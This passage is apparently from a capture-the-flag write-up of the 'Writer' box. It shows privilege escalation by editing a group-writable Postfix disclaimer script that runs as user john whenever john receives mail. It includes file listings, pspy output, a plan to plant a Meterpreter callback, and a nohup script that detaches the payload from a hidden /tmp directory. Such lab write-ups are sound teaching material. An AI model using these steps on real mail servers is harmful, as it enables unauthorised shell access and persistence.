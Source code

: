 Inspecting the box further, we can see that postfix is the service running on 25/tcp and coincidentally, the filter group exists on one of the files in the postfix configuration:
```Awk
kyle@writer:/etc/postfix$ ls -al
total 140
drwxr-xr-x   5 root root    4096 Jul  9 10:59 .
drwxr-xr-x 102 root root    4096 Jul 28 06:32 ..
-rwxrwxr-x   1 root filter  1021 Dec 11 14:32 disclaimer
-rw-r--r--   1 root root      32 May 13  2021 disclaimer_addresses
-rw-r--r--   1 root root     749 May 13  2021 disclaimer.txt
-rw-r--r--   1 root root      60 May 13  2021 dynamicmaps.cf
drwxr-xr-x   2 root root    4096 Jun 19  2020 dynamicmaps.cf.d
-rw-r--r--   1 root root    1330 May 18  2021 main.cf
-rw-r--r--   1 root root   27120 May 13  2021 main.cf.proto
lrwxrwxrwx   1 root root      31 May 13  2021 makedefs.out -> /usr/share/postfix/makedefs.out
-rw-r--r--   1 root root    6373 Dec 11 14:32 master.cf
-rw-r--r--   1 root root    6208 May 13  2021 master.cf.proto
-rw-r--r--   1 root root   10268 Jun 19  2020 postfix-files
drwxr-xr-x   2 root root    4096 Jun 19  2020 postfix-files.d
-rwxr-xr-x   1 root root   11532 Jun 19  2020 postfix-script
-rwxr-xr-x   1 root root   29872 Jun 19  2020 post-install
drwxr-xr-x   2 root root    4096 Jun 19  2020 sasl
```

### Postfix Inspection

Now, I had never used postfix before, so I was not really sure what to do with this, but if we look at the `master.cf` configuration file we see the following:
```Awk
kyle@writer:~$ cat /etc/postfix/master.cf | grep john
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

Doing some research into postfix, what is actually happening here is that postfix will execute the `/etc/postfix/disclaimer` script when john receives an email.  This is useful to us since we can edit the script that it executes! What is better is that using `pspy64` we can see that when this executes, it executes as the user john:
```Awk
2021/12/11 14:32:08 CMD: UID=1001 PID=378522 | /bin/sh /etc/postfix/disclaimer -f kyle@writer.htb -- john@writer.htb
```

So now we have our path to escalate to john:

1) Edit the `/etc/postfix/disclaimer` script to call back to us.
2) Send an email to john.
3) The script will execute and give us a shell on the box.


### Gaining John

I prefer to use Meterpreter sessions rather than normal reverse shells as they call their own binary, so I generated a payload and copied it over.  I also created the following little script to detatch the Meterpreter binary from the process which calls it, which should prevent my session from dying:
```Awk
kyle@writer:/tmp/.tempdir$ cat script.sh
#!/bin/bash

nohup /tmp/.tempdir/shell.elf &
```
